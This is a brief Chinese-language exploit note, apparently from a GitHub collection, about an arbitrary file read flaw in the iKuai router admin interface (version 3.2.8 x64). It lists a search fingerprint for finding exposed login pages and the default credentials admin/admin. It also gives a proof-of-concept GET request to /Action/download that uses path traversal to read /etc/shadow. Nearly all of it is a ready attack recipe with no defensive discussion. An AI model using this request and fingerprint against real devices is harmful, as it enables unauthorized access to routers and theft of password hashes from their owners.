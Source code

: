 # iKuai 后台任意文件读取漏洞

# iKuai 后台任意文件读取漏洞

## 漏洞描述

参考链接：

- https://forum.ywhack.com/thread-115307-1-8.html

## 漏洞影响

影响版本，不一定是绝对版本，也可能其它版本都存在：

```
3.2.8 x64 Build201910101758
```

## 网络测绘

```
title="登录爱快流控路由"
```

## 漏洞复现

默认用户名/密码：admin/admin

poc：

```
GET /Action/download?filename=../../../../../../etc/shadow HTTP/1.1
Host：
....
```






